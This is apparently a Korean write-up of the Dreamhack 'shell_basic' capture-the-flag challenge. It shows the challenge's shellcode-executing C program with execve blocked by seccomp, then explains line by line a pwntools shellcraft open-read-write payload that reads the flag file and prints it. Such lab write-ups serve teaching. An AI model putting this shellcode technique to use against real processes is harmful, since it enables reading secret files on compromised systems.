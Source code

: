 dreamhack shell_basic
============

먼저 문제 파일 살펴보면

```c
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

추가로 flag의 위치는 "/home/shell_basic/flag_name_is_loooooong"이라는 정보도 주어졌다.

즉 open-read-write를 사용해서 flag 출력 쉘코드 작성하는 문제이다.

orw 쉘코드는 쓰기 번거로워서 좀 더 쉽게 풀려고 dreamhack 강의에서도 언급된 shellcraft 모듈을 사용하기로 했다.

https://docs.pwntools.com/en/stable/shellcraft/amd64/html 참고해서 작성했다.

------------------------------

<img width="512" height="355" alt="image" src="https://github.com/user-attachments/assets/10944a4e-2297-4ce9-878c-912645104838" />


#### 주요 코드 분석

* `flag_str = "/home/shell_basic/flag_name_is_looooong"`:  **플래그 파일의 경로**를 변수에 저장.
* `ex += shellcraft.pushstr(flag_str)`: 쉘코드를 쉽게 생성하기 위해 shellcraft 모듈 사용.
  이 줄은 `flag_str` 변수에 저장된 문자열을 스택에 push하는 쉘코드를 추가.
* `ex += shellcraft.open('rax', 0, None)`: 스택에 push된 플래그 파일 경로를 **rax 레지스터**에서 읽어와서 파일을 읽기 전용로 연다.
  0은 `O_RDONLY` (읽기 전용) 를 의미.
* `ex += shellcraft.read('rax', 'rsp', 100)`: 전 단계에서 열린 파일 디스크립터 (rax에 저장된 값)를 이용해
  파일 내용을 **100바이트**만큼 읽어와 스택 포인터 (rsp)가 가리키는 메모리 공간에 저장.
* `ex += shellcraft.write(1, 'rsp', 100)`: 파일에서 읽어온 내용을 표준 출력 (`stdout`)인 **파일 디스크립터 `1`**로 쓴다. 
  이렇게 해서 서버의 플래그 내용이 공격자의 터미널로 전송된다.
* `ex += shellcraft.exit()`: 프로세스를 종료.
* `r.sendline(asm(ex))`: `asm` 함수를 사용해 위에서 작성된 쉘코드 (ex)를 **어셈블리어**로 변환하고 한 줄로 서버에 전송.

---------------------------


<img width="717" height="162" alt="image" src="https://github.com/user-attachments/assets/4243a68f-69ef-4199-bc1a-dbf845f0bfb3" />


이렇게 플래그를 얻어낼 수 있다.
